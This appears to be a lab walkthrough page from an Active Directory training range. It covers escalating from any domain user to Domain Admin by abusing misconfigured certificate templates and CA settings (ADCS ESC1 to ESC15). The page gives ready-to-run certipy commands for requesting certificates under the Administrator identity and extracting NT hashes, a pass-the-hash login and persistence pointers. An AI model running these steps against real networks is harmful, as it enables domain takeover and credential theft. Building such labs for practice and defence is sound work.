

# 📜 05 — ADCS (any user → Domain Admin via certificate)

> [!abstract] Summary
> **Start:** any credential that can enrol a certificate (any domain user).
> **Goal:** a certificate that authenticates as Administrator → NT hash / TGT.
> **CA:** `corp-CA` on `endor.empire.local` (10.10.0.12).
> **Why it works:** misconfigured templates let a low-priv user request a cert with an arbitrary `Subject Alternative Name` (UPN). The DC trusts that cert for PKINIT logon — so you log in as whoever you named.



## Seeded templates (`vuln_adcs`)

| ESC | Template | Misconfiguration |
|---|---|---|
| ESC1 | `EMPIREUserESC1` | Enrollee-supplies-subject + Domain Users enrol + ClientAuth EKU, no approval |
| ESC2 | `EMPIREMachineESC2` | Any-purpose / SubCA EKU |
| ESC3 | `EMPIREAgentESC3` | Enrollment Agent template |
| ESC4 | `EMPIREWriteESC4` | Domain Users have **Write** over the template |
| ESC13 | `EMPIREIssuanceESC13` | Issuance policy linked to a group |
| ESC15 | `EMPIRENoSecExtESC15` | Schema v1, no security ext (app-policy injection) |

CA-level: **ESC6** (`EDITF_ATTRIBUTESUBJECTALTNAME2`), **ESC7** (`svc_bobafett` = Certificate Manager), **ESC8** (CertSrv HTTP+NTLM, no EPA), **ESC11** (CertSrv RPC, no HTTPS).

## Step 1 — Enumerate

```bash
certipy find -u <user>@empire.local -p '<pw>' -dc-ip 10.10.0.10 -vulnerable -stdout
```

## Step 2a — ESC1 (the fastest)

Any user requests `EMPIREUserESC1` with Administrator's UPN:
```bash
certipy req -u svc_trooper@empire.local -p 'Summer2024' \
  -ca corp-CA -target endor.empire.local \
  -template EMPIREUserESC1 -upn administrator@empire.local
certipy auth -pfx administrator.pfx -dc-ip 10.10.0.10    # → NT hash + TGT
```

## Step 2b — ESC6 (CA honours any SAN)

Because the CA has the SAN flag, the same `-upn administrator` trick works on **any** enrollable template.

## Step 2c — ESC15 (schema v1, inject ClientAuth)

```bash
certipy req -u <user> -p '<pw>' -ca corp-CA -template EMPIRENoSecExtESC15 \
  -upn administrator@empire.local -application-policies '1.3.6.1.5.5.7.3.2'
```

## Step 2d — ESC7 (`svc_bobafett`)

`svc_bobafett` is a CA Certificate Manager → can approve its own ESC3 agent request or issue on-behalf-of certs. Compromise it (spray/roast) then approve.

## Step 2e — ESC8 (relay) → see [[06-coerce-relay]]

Relay coerced DC machine auth to the HTTP CertSrv endpoint → DC certificate → DCSync.

## Step 3 — Cash in

```bash
certipy auth -pfx administrator.pfx -dc-ip 10.10.0.10     # NT hash
nxc smb 10.10.0.10 -u Administrator -H <hash>
```

> [!check] Outcome
> DA via certificate (survives password resets — cert valid until expiry). **Next:** [[12-persistence]], or steal the CA key for forever-certs.
